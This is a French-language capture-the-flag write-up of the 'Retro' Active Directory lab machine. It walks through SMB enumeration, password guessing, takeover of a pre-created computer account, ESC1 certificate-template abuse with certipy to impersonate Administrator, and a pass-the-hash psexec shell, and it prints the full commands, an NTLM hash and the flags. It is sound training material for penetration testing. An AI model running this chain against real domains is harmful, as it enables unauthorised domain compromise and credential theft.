






Retro est une machine Windows de difficulté facile présentant un contrôleur de domaine Active Directory. Grâce à l'énumération SMB et à l'exploitation d'un compte machine pré-créé, nous obtenons l'accès au système. L'escalade de privilèges est réalisée via l'exploitation d'Active Directory Certificate Service, en utilisant spécifiquement l'attaque `ESC1`, qui exploite les modèles de certificats pour usurper l'identité de l'utilisateur Administrateur.

## Enumération
### Nmap

J'effectue premièrement un simple scan `nmap` pour avoir tous les ports ouverts. Il y en a plusieurs :
- 53 pour le DNS
- 88 pour Kerberos
- 389 pour LDAP
- 445 pour le SMB
- 636 pour LDAPS
- Et d'autres ports

```
╭─root at exegol-htb in /workspace/Retro
╰─○ nmap 10.129.26.76 --min-rate 5000 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2025-06-24 18:40 CEST
Nmap scan report for 10.129.26.76
Host is up (0.080s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49819/tcp open  unknown
49828/tcp open  unknown
55113/tcp open  unknown
64619/tcp open  unknown
64637/tcp open  unknown
```


Maintenant j'effectue un second scan pour avoir plus de détails sur ces ports.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ nmap 10.129.26.76 --min-rate 5000 -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,9389,49664,49667,49668,49819,49828,55113,64619,64637
Starting Nmap 7.93 ( https://nmap.org ) at 2025-06-24 18:44 CEST
Nmap scan report for 10.129.26.76
Host is up (0.042s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-24 16:44:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-02T10:33:09
|_Not valid after:  2025-10-02T10:33:09
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-02T10:33:09
|_Not valid after:  2025-10-02T10:33:09
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-02T10:33:09
|_Not valid after:  2025-10-02T10:33:09
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2024-10-02T10:33:09
|_Not valid after:  2025-10-02T10:33:09
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.retro.vl
| Not valid before: 2025-04-08T01:55:44
|_Not valid after:  2025-10-08T01:55:44
|_ssl-date: 2025-06-24T16:45:51+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: RETRO
|   NetBIOS_Domain_Name: RETRO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: retro.vl
|   DNS_Computer_Name: DC.retro.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-06-24T16:45:11+00:00
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49819/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49828/tcp open  msrpc         Microsoft Windows RPC
55113/tcp open  msrpc         Microsoft Windows RPC
64619/tcp open  msrpc         Microsoft Windows RPC
64637/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2025-06-24T16:45:12
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
```


J'ajoute le nom de domaine ainsi que le FQDN dans le fichier `/etc/hosts`.
```
echo "10.129.26.76 retro.vl DC.retro.vl" | tee -a /etc/hosts
```


### SMB (445)

En énumérant les partages en tant que Guest, je vois que j'ai un accès en lecture au partage `Trainees`.
```
nxc smb retro.vl -u 'a' -p '' --shares
```



Je télécharge donc le contenu de ce partage en y accédant avec `smbclient`.
```bash
╭─root at exegol-htb in /workspace/Retro
╰─○ smbclient //retro.vl/Trainees -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 23 23:58:43 2023
  ..                                DHS        0  Wed Jun 11 16:17:10 2025
  Important.txt                       A      288  Mon Jul 24 00:00:13 2023

                4659711 blocks of size 4096. 1283267 blocks available
smb: \> get Important.txt
getting file \Important.txt of size 288 as Important.txt (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
smb: \> quit
```


Voici le contenu du fichier.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ cat Important.txt
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins#
```


Lorsque je brute force les RID, j'obtiens certains utilisateurs et groupes. Je vais les placer dans un fichier.
```
nxc smb retro.vl -u 'a' -p '' --rid-brute
```



Dans le fichier `Important.txt`, on nous dit que le mot de passe a été rendu simple pour les membres du groupe `Trainees`. Et en plus ce mot de passe est utilisé par un compte commun. D'après ce que je vois comme potentiels utilisateurs, je pense qu'on part pour l'utilisateur `trainee` avec un mot de passe très simple comme `12345678`, ou le nom du compte en lui même. Testons cela.
```
nxc smb retro.vl -u 'trainee' -p 'trainee'
```



`trainee` a accès à d'autres partages dont le partage `Notes` qui attire mon attention.
```
nxc smb retro.vl -u 'trainee' -p 'trainee' --shares
```



Je télécharge les deux fichiers qui s'y trouvent.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ smbclient //retro.vl/Notes -U 'trainee%trainee'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr  9 05:12:49 2025
  ..                                DHS        0  Wed Jun 11 16:17:10 2025
  ToDo.txt                            A      248  Mon Jul 24 00:05:56 2023
  user.txt                            A       32  Wed Apr  9 05:13:01 2025

                4659711 blocks of size 4096. 1283831 blocks available
smb: \> get ToDo.txt
getting file \ToDo.txt of size 248 as ToDo.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
smb: \> get user.txt
getting file \user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> quit
```


Dans le fichier `user.txt` se trouve le premier flag. Mai je vois quelque chose d'intéressant dans le fichier `ToDo.txt`.
D'après ce que je vois on nous demande de nous intéresser au [pre created Computer Account](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts).
```
╭─root at exegol-htb in /workspace/Retro
╰─○ cat ToDo.txt
Thomas,

after convincing the finance department to get rid of their ancienct banking software it is finally time to clean up the mess they made. We should start with the pre created computer account. That one is older than me.

Best

James

╭─root at exegol-htb in /workspace/Retro
╰─○ cat user.txt
cbda362cff2099072c5e96c51712ff33
```

## Shell en tant que administrator

### BloodHound

Maintenant que j'ai un compte et des identifiants valides, j'utilise `BloodHound` pour avoir un aperçu des relations dans le domaine. Après y avoir passé quelques minutes, je n'ai rien de vraiment intéressant.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ bloodhound-python -u 'trainee' -p 'trainee' -d retro.vl -c All --zip -ns 10.129.26.76
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: retro.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.retro.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.retro.vl
INFO: Found 7 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer: DC.retro.vl
INFO: Done in 00M 09S
INFO: Compressing output into 20250624193733_bloodhound.zip
```


### Pre Created Computer Account

Maintenant revenons sur ce que nous dis le fichier `ToDo.txt`. Lorsqu'un nouveau compte d'ordinateur est configuré comme `pre-Windows 2000 computer`, son mot de passe est généralement le nom du compte machine en minuscule. Lors de mon énumération SMB j'avais trouvé deux comptes machines, `DC$` et `BANKING$`. Je teste et je vois que c'est le compte BANKING$ qui présente l'attribut `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.
```
nxc smb retro.vl -u 'BANKING$' -p 'banking'
```



Je change le mot de passe du compte `BANKING$` à l'aide de [changepasswd.py](https://github.com/fortra/impacket/blob/master/examples/changepasswd.py).
```
╭─root at exegol-htb in /workspace/Retro
╰─○ changepasswd.py retro.vl/BANKING\$:banking@10.129.234.44 -newpass Password@2025 -p rpc-samr
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
[*] Password was changed successfully.
```


### ESC1

Une fois le mot de passe changé, j'énumère les certificats vulnérables. Je trouve le Template `RetroClients` qui est vulnérable à une `ESC1`.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ certipy find -u 'BANKING$' -p 'Password@2025' -dc-ip 10.129.234.44 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCertificates              : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        ManageCa                        : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Enroll                          : RETRO.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Permissions
      Enrollment Permissions
        Enrollment Rights               : RETRO.VL\Domain Admins
                                          RETRO.VL\Domain Computers
                                          RETRO.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : RETRO.VL\Administrator
        Write Owner Principals          : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Dacl Principals           : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
        Write Property Principals       : RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
                                          RETRO.VL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'RETRO.VL\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```


Maintenant à l'aide de `certipy`, je fais une demande de certificat en tant que l'utilisateur `administrator`. J'obtiens une erreur `Got error while trying to request certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template`. Pour régler cela, j'ajoute à la commande l'option `-key-size 4096`.
```
certipy req -u 'BANKING$@retro.vl' -p "Password@2025" -dc-ip "10.129.234.44" -target "dc.retro.vl" -ca 'retro-DC-CA' -template 'RetroClients' -upn 'administrator' -debug
```



Mais ce n'est pas tout. Je ne sais pas trop pourquoi, mais la machine voulais à tout pris le SID de l'administrateur. Or je ne l'ai pas. Sauf que je connais la [structure des SID](https://www.it-connect.fr/a-la-decouverte-des-sid-sous-windows/#IV_Les_SID_communs_ou_Well-known_SID), il me suffit de récupérer le SID de `BANKING$` (en utilisant l'option `debug` on obtiens le `SID` de `BANKING$`) et de changer le `RID` par `500`.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ certipy req -u 'BANKING$@retro.vl' -p "Password@2025" -dc-ip "10.129.234.44" -target "dc.retro.vl" -ca 'retro-DC-CA' -template 'RetroClients' -upn 'Administrator@retro.vl' -key-size 4096 -sid 'S-1-5-21-2983547755-698260136-4283918172-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 18
[*] Got certificate with UPN 'Administrator@retro.vl'
[*] Certificate object SID is 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Saved certificate and private key to 'administrator.pfx'
```


Ensuite je m'authentifie avec ce certificat, ce qui me donne le hash NTLM de l'utilisateur `administrator`.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ certipy auth -pfx administrator.pfx                                                                                                                     Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```


J'obtiens un shell avec `psexec` et je récupère le second flag.
```
╭─root at exegol-htb in /workspace/Retro
╰─○ psexec.py -hashes :"252fac7066d93dd009d4fd2cd0368389" "retro.vl"/"administrator"@"10.129.234.44"
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.129.234.44.....
[*] Found writable share ADMIN$
[*] Uploading file vxhatLHs.exe
[*] Opening SVCManager on 10.129.234.44.....
[*] Creating service zkTj on 10.129.234.44.....
[*] Starting service zkTj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd /users/administrator

C:\Users\Administrator> dir
 Volume in drive C has no label.
 Volume Serial Number is 4BCB-B13C

 Directory of C:\Users\Administrator

05/05/2025  03:51 AM    <DIR>          .
07/23/2023  01:47 PM    <DIR>          ..
07/23/2023  01:48 PM    <DIR>          3D Objects
07/23/2023  01:48 PM    <DIR>          Contacts
05/05/2025  04:55 AM    <DIR>          Desktop
07/23/2023  01:48 PM    <DIR>          Documents
07/23/2023  01:48 PM    <DIR>          Downloads
07/23/2023  01:48 PM    <DIR>          Favorites
07/23/2023  01:48 PM    <DIR>          Links
07/23/2023  01:48 PM    <DIR>          Music
07/23/2023  01:48 PM    <DIR>          Pictures
07/23/2023  01:48 PM    <DIR>          Saved Games
07/23/2023  01:48 PM    <DIR>          Searches
07/23/2023  01:48 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)   5,261,729,792 bytes free

C:\Users\Administrator> cd Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 4BCB-B13C

 Directory of C:\Users\Administrator\Desktop

05/05/2025  04:55 AM    <DIR>          .
05/05/2025  03:51 AM    <DIR>          ..
04/08/2025  08:11 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   5,261,729,792 bytes free

C:\Users\Administrator\Desktop> type root.txt
40fce9c3f09024bcab29d377ee1ed071
```
